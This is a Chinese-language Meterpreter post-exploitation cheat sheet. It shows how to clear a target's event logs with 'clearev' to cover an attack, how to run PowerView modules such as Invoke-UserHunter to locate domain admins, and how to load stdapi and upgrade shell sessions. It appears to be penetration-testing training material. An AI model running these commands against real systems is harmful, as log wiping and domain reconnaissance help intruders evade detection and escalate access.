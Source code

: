 
#### 清除事件日志
完成攻击操作之后
千万别忘了 "打扫战场"
我们的所有操作都会被记录在目标系统的日志文件之中
因此我们需要在完成攻击之后使用以下命令来清除事件日志
~~~bash
clearev  #清除事件日志
~~~

### 导入并执行 PowerShell 脚本
如果 `powershell` 脚本是用于域内信息收集的
则获取到的权限用户需要是域用户
~~~bash
load powershell                           			#加载powershell功能
powershell_import /root/PowerView.ps1      			#导入powershell脚本，提前将该powershell脚本放到指定目录
powershell_execute Get-NetDomain           			#执行该脚本下的功能模块Get-domain，该模块用于获取域信息，一个脚本下通常有多个功能模块;获取当前用户所在域的名称;
powershell_execute Invoke-UserHunter      			#该功能模块用于定位域管理员登录的主机;
powershell_execute Get-NetForest           			#该模块用于定位域信息
powershell_execute Invoke-EnumerateLocalAdmin 	    #枚举域中所有计算机上本地管理员组的成员
~~~

### 加载 stdapi
有时候虽然我们获取到了 `Meterpreter`
但是执行一些命令会显示没有该命令
这时我们可以执行 `load stdapi` 来加载
这样我们就可以执行命令了

### 升级 Session
有时候，当我们收到的不是 `Meterpreter` 类型的 `session` 的话
可能不好操作，我们可以执行命令 `sessions -u id` 来升级 `session`
执行该命令，默认调用的是 `post/multi/manage/shell_to_meterpreter` 模块

